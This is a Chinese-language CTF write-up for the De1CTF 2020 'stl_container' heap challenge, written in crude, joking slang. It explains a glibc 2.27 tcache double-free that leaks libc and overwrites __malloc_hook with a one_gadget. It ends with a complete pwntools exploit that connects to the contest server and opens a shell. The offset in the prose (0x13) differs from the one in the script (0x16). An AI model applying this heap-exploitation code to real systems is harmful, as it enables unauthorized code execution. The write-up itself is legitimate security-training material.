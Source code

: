 ```yaml
---
title: De1CTF_2020 write up
date: 2020-05-04 17:41:34
tags: CTF
---
```

这个比赛属实不是人打的，建议改名为MC-CTF<!--more-->，wdnmd每个类型都有mc的题目，出题人记得签收刀片  
开局先贴一张图且膜拜一波publicQi师傅，解那个code_runner写了五百多行代码，和别人交流从下午三点聊到早上5点  
![](D1.png)
而且比赛就没有点阳间的pwn，都是些什么玩意儿，属实给👴整吐了  
一个C艹写的菜单堆，一个套十五六层逆向算法的mips，一个CVE，一个Vm-pwn，一个Android-pwn，这是人做的？？？  
![](D2.jpg)
我搞出来这题是和Theffth小姐姐一起做的，她leak了libc，我调出了getshell  
stl_container是C艹写的菜单堆，glibc2.27，有4个功能，每个功能里面分别有三个功能，大概像这样  
![](D3.png)
然后C艹看不懂，IDA都不开，直接盲调，测试得到每个功能最多创建两个chunk，而且都是0xa0大小的，vector功能存在double free，因为是2.27，可以直接free同一块chunk两次  
接着就是瞎jb调，然后发现，把tcache填满后，利用double free，就可以看到main_arena+96链进了unsorted bin，就可以leak libc了  
具体操作如下  
①将所有chunk都申请出来，然后全部free  
②再次free vector中的chunk0，形成double free  
就会看到，大概长这样  
![](D4.png)
③再瞎jb调一通，会发现，把queue和stack的chunk全部申请回来之后，再申请一个vector中的chunk0，show一下，就能leak出meain_arena+96的地址  
大概长这样  
![](D5.jpg)
快乐！  
接着，我的一开始思路是再次把tcache填满，然后可以用别的bin打一打，因为我不是很会tcache  
④leak完后将queue和stack中的chunk都free了（这步为什么要这样做，我也不知道，反正不这样做就没法getshell）  
⑤再次add一个vector中的chunk0，并free 0两次，构造double free  
⑥add一个vector中的chunk1，并写入malloc_hook-0x13  
然后就会惊奇的发现  
![](D6.png)
⑦再申请一个vector chunk，里面写one_gadget，就能add到已malloc_hook-0x13为地址的chunk并且把one_gadget写进malloc_hook去了  
然后我调的时候没有x/gx，没显示完，大概长这样，我还以为只写入了一部分  
![](D7.png)
然后我还调了一波偏移，其实0x13的时候应该就已经写进去了
![](D8.png)  
![](D9.png)
快乐！！！  
exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './stl_container' 
local = 0
if local == 1:
    p=process(binary)
else:
    p=remote("134.175.239.26",8848)
elf=ELF(binary)
libc=ELF("libc-2.27.so")
def Ladd(content):
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil("data:")
    p.send(content)
def vadd(content):
    p.recvuntil(">> ")
    p.send("2")
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil("data:")
    p.send(content)
def qadd(content):
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil("data:")
    p.send(content)
def sadd(content):
    p.recvuntil(">> ")
    p.send("4")
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil("data:")
    p.send(content)
def Lfree(index):
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil(">> ")
    p.send("2")
    p.recvuntil("index?")
    p.send(str(index))
def vfree(index):
    p.recvuntil(">> ")
    p.send("2")
    p.recvuntil(">> ")
    p.send("2")
    p.recvuntil("index?")
    p.send(str(index))
def qfree():
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil(">> ")
    p.send("2")
def sfree():
    p.recvuntil(">> ")
    p.send("4")
    p.recvuntil(">> ")
    p.send("2")
def Lshow(index):
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil("index?")
    p.send(str(index))
def vshow(index):
    p.recvuntil(">> ")
    p.send("2")
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil("index?")
    p.send(str(index))
def qshow(index):
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil("index?")
    p.send(str(index))
def sshow(index):
    p.recvuntil(">> ")
    p.send("4")
    p.recvuntil(">> ")
    p.send("3")
    p.recvuntil("index?")
    p.send(str(index))
def exp():
    Ladd(" ") # 0
    Ladd(" ") # 1
    vadd(" ") # 2
    vadd(" ") # 3
    qadd(" ") # 4
    qadd(" ") # 5
    sadd(" ") # 6
    sadd(" ") # 7
    Lfree(0)
    Lfree(1)
    vfree(0)
    vfree(1)
    qfree()
    qfree()
    sfree()
    sfree()
    vfree(0)
    qadd(" ")
    qadd(" ")
    sadd(" ")
    sadd(" ")
    vadd(" ")
    vshow(0)
    
    leak =  u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) 
    libc_base = leak - 0x3ebc20
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    realloc = libc_base + libc.sym['realloc']
    log.success("libc_base==>" + hex(libc_base))
    log.success("malloc_hook==>" + hex(malloc_hook))
    one_gadget = libc_base +   0x4f322   
    print "one==>" + hex(one_gadget)
    payload = p64(malloc_hook)
    qfree()
    qfree()
    sfree()
    sfree()

    vadd(" ")
    vfree(0)
    vfree(0)
    vadd(p64(malloc_hook-0x16))
    payload = "a" *0x16 + p64(one_gadget)
    vadd(payload)
    #gdb.attach(p)
    p.recvuntil(">> ")
    p.send("1")
    p.recvuntil(">> ")
    p.send("1")
    p.sendline("cat flag")
    p.interactive()
exp()
```  
末尾贴上队内其他师傅搞出来的题目的wp链接：  
https://mp.weixin.qq.com/s/InqX2yJB7zIIgT7GEN2iow